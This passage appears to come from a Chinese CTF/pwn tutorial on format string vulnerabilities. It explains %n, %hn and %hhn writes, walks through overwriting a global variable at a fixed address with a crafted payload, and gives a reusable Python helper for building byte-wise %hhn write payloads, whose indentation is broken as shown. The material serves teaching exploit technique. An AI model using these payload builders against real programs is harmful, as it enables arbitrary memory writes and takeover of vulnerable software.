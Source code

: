 而不同于%n,如果已输出字符数为10，那么会在将给定地址处，高地址-低地址赋值为0x0000000A。但是%hhn,%hn只会影响1个字节/2个字节，其他字节保持

![确定b变量的存储地址](/assets/img/cover8.jpg)

b变量作为已初始化的全局变量，同样位于.data节中，利用ida看一下，可以发现地址为0x0804A02C[这是变量b的起始地址,实际b作为int类型，占据的地址为0x0804A02C-0x0804A02F]

接下来，按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

> 0x0804A02C \x78
> 
> 0x0804A02D \x56
> 
> 0x0804A02E \x34
> 
> 0x0804A02F \x12


由于此前通过调试确定，我们的字符串的偏移为6，所以我们可以确定我们的payload基本是这个样子的：

> p32(0x0804A02C)+p32(0x0804A02D)+p32(0x0804A02E)+p32(0x0804A02F)+padding1+'%6$n'+padding2+'%7$n'+padding3+'%8$n'+padding4+'%9$n'

以上未明确的padding,按照根据需要填充的数据值进行修改，使得在进行解析%k$n之前，输出的字符串数[用paddings来控制]等于这个地址要写入的数值。

这里有一个通用的写入大数的脚本

    //格式化字符串漏洞——覆盖4字节的大数字[大数字中的各个字节很小也可以]
    
    def fmt(prev, word, index):
        if prev < word:
        result = word - prev  #此前已经输出prev个字符，现在补充word-prev个字符，相当于总的输出了word个字符
        fmtstr = "%" + str(result) + "c" #解析栈中对应值，输出result个字符
        elif prev == word:
        result = 0
        else:  #word<prev
        result = 256 + word - prev #如果这个地址要写入的数字小于已经输出字符数，
    	#那么就+256=0x0100,让他成为一个2字节大小的数据，实际%hhn只会写入低位的那个字节。
    	#因为此前已经输出了prev个字符，这里是做字符补充，所以最终相当于输出%(256+word)c，256=0x0100高位被舍去，剩下低字节的word。
        fmtstr = "%" + str(result) + "c"
        fmtstr += "%" + str(index) + "$hhn"
        return fmtstr


​    
    def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
        if size == 4:
        payload += p32(addr + i)
        else:
        payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i) #(target >> i * 8) & 0xff获取大数字的每一个字节
        prev = (target >> i * 8) & 0xff
        return payload
    